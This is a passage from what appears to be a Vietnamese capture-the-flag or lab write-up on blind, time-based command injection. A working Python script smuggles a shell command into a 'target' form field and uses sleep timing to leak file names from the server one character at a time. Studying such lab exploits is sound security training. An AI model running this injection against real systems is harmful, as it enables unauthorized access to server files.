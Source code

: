 - Vậy nếu không nhận được tín hiệu thì lúc này chúng ta sẽ tự tạo ra tín hiệu. Trước đấy là tín hiệu là chuỗi `zip error` thì ta sẽ sử dụng thời gian để tạo tín hiệu, tức là nếu sai thì sẽ không sao còn nếu đúng thì sẽ sleep 3 giây, lúc này thì ta sẽ biết được lúc nào kiểm tra đúng lúc nào kiểm tra sai dựa vào thời gian respond của máy chủ.

    ```python
    import requests
    import time
    # thư viện time cho pehsp chúng ta lấy ra thời gian thực

    URL = 'http://cmdi.cyberjutsu-lab.tech:3007/'

    charset = './0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ\_abcdefghijklmnopqrstuvwxyz{}'

    for i in range(100):
        for c in charset:
            #đây là payload exploit
            inject = 'z /var/www/html/index.php; if [ `ls / | tr -d \'\\n\' | cut -c {index}` = \'{bruteforce}\' ];then sleep 2;else echo sleep 0;fi #'.format(bruteforce = c, index = i)
            # tui dùng thư viện 'requests' trong python, để gửi requests đi. Ở đay ta dùng method POST
            # hai tham số POST sẽ được dặt vòa một tham số thứ 2
            r = requests.post(URL, {'command':'backup', 'target':inject})

            # print(r.elapsed)
            # đây là khoảng thời gian phản hổi của rrequest và respond
            # r.elapsed.total_seconds() 
            # đây à thời gian bản hồi dưới dạng số thực

            if r.elapsed.total_seconds() > 2:
                print(end = c)
                break
    # aef15696cd_secret.txt
    ```

    ![alt text](IMG/7/image.png)
